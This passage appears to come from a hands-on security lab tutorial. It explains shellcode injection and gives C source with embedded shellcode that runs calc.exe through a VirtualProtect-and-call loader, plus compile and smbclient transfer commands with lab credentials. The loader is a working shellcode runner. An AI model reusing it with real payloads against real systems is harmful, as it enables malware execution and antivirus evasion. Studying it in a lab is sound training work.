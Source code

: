 Hackers inject shellcode into a running or new thread and process using various techniques. Shellcode injection techniques modify the program's execution flow to update registers and functions of the program to execute the attacker's own code.

Now let's continue using the generated shellcode and execute it on the operating system. The following is a C code containing our generated shellcode which will be injected into memory and will execute "calc.exe".

On the AttackBox, let's save the following in a file named `calc.c`:

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Now let's compile it as an exe file:

Compile our C program for Windows

```shell-session
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Once we have our exe file, let's transfer it to the Windows machine and execute it. To transfer the file you can use smbclient from your AttackBox to access the SMB share at \\10.10.243.131\Tools with the following commands (remember the password for the `thm` user is `Password321`):

Copy calc-MSC.exe to Windows Machine

```shell-session
user@AttackBox$ smbclient -U thm '//10.10.243.131/Tools'
smb: \> put calc-MSF.exe
```

This should copy your file in `C:\Tools\` in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at `http://10.10.243.131/`.
